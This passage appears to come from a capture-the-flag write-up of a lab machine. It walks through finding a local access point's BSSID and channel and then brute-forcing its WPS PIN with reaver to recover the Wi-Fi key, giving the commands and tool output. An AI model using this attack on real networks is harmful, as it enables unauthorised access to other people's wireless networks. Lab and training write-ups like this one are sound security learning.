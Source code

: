 ```
netadmin@wifinetic:~$ ifconfig                                              
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500       
        inet 10.10.11.247  netmask 255.255.254.0  broadcast 10.10.11.255lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536                     
        inet 127.0.0.1  netmask 255.0.0.0                        mon0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500       wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500      
        inet 192.168.1.1  netmask 255.255.255.0  broadcast 192.168.1.255    
wlan1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500 
	inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255
wlan2: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500              
```

Given the multitude of wireless activity on this device, I suspect that the path to root involves some form of wireless attack. Having a NIC already set in monitor mode opens up possibilities for wireless attacks. I noticed `reaver` among the tools installed on this machine,  it is used for brute force attacks on a router with WPS authentication enabled. I decided to employ it on the `wlan0` device, suspecting it to be some sort of Access Point. The syntax for this is `reaver -i INTERFACE -c CHANNEL -b BSSID -vv`. While I know the interface of the monitor card, I still need to ascertain the channel and ESSID of the AP. The `iw dev` command can provide me with more information about the wireless networks this machine is connected to. The output confirmed the BSSID as `02:00:00:00:00:00` and it operates on channel `1`.

```
netadmin@wifinetic:~$ iw dev

[snip]

phy#0
        Interface wlan0
                ifindex 3
                wdev 0x1
                addr 02:00:00:00:00:00 
                ssid OpenWrt
                type AP
                channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
                txpower 20.00 dBm
netadmin@wifinetic:~$ 
```

The attack proved successful, with `reaver` retrieving the PIN and subsequently recovering the Pre-Shared Key (PSK).

```
netadmin@wifinetic:~$ reaver -i mon0 -c 1 -b 02:00:00:00:00:00 -vv

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching mon0 to channel 1
[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
```